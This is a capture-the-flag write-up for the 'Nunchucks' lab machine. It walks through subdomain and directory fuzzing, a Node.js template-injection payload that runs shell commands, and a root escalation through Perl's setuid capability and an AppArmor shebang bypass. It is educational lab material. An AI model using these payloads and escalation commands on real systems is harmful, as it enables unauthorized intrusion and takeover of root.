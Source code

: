 1, nmap scan
22/tcp ssh
80/tcp http
443/tcp ssl/http

2, enumerate sub-domain
Because of no useful information, we can also find some sub-domain of this website
wfuzz -H "Host: FUZZ.nunchucks.htb" -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt --hh 30587 https://nunchucks.htb

we can find "store.nunchucks.htb"

3, enumerate the website 
![](images/Pasted%20image%2020240720090328.png)
It is clear that registration is closed.
So try to find something useful in the fuzzing the web-contents.
 ffuf -u https://nunchucks.htb/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -fs 45

/login /privacy /signup /terms /asserts
maybe /login could have the sql-injection
from Wappalyzer, we can get this website is powered by node-js and express,it always use no-sql databases with it.
So try some typical no-sql injection payload:(fail)

Let's enumerate the web of store.nunchucks.htb
 ffuf -u https://store.nunchucks.htb/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -fs 45
We only find the /asserts
So try to find some hints from the index page
There is a POST request from the email submit,let's exploit it by using burpsuite
![](images/Pasted%20image%2020240720092923.png)
Successfully identity the SSTI ! (nunchucks template injection)
pyload:
 {"email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')\")()}}@qq.com1"}

of course, we can get user.txt and make our ssh file
finally we successfully login into the server 
ssh david@10.10.11.122

4, Shell as root
we can upload the tool pspy64 to help us to find something in the background

as root 
/bin/sh /usr/lib/apt/apt.systemd.daily lock_is_held install

also we find something interesting in the /opt/backup.pl

use POSIX qw(setuid); 
POSIX::setuid(0);

But since only root can write to /opt/web_backups, it’s using POSIX::setuid(0) to run as root.
To do this, it must either be SUID or have a capability. It has the setuid capability:

getcap /usr/bin/perl
/usr/bin/perl = cap_setuid+ep

So we want to try to get root shell straightly
/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
but it didnot work!
but exec "id" get uid=0(root) gid=1000(david) groups=1000(david)

Apparmor is a way to define access controls much more granularly to various binaries in Linux. There are a series of binary-specific profiles in /etc/apparmor.d
there is a specific for usr.bin.perl

  deny owner /etc/nsswitch.conf r,
  deny /root/* rwx,
  deny /etc/shadow rwx,

so we could not straightly by /usr/bin/perl

but we can try  write it into scipts:

There’s two common ways to start a script on Linux. The first is to call the interpreter (bash, python, perl) and then give it the script as an argument. This method will apply AppArmor protections as expected.
在 Linux 上启动脚本有两种常见方法。第一种是调用解释器（ bash 、 python 、 perl ），然后将脚本作为参数提供给它。此方法将按预期应用 AppArmor 保护。

The other is using a Shebang (#!) and setting the script itself to executable. When Linux tries to load the script as executable, that line tells it what interpreter to use. For some reason, the AppArmor developers don’t believe that the rules for the interpreter should apply there, and so they don’t.
另一种是使用 Shebang ( #! ) 并将脚本本身设置为可执行文件。当 Linux 尝试将脚本加载为可执行文件时，该行会告诉它要使用哪个解释器。由于某种原因，AppArmor 开发人员认为解释器的规则不应该适用于此，因此他们不这样做。

That means if I just run ./shell.pl, it works and we get root shell.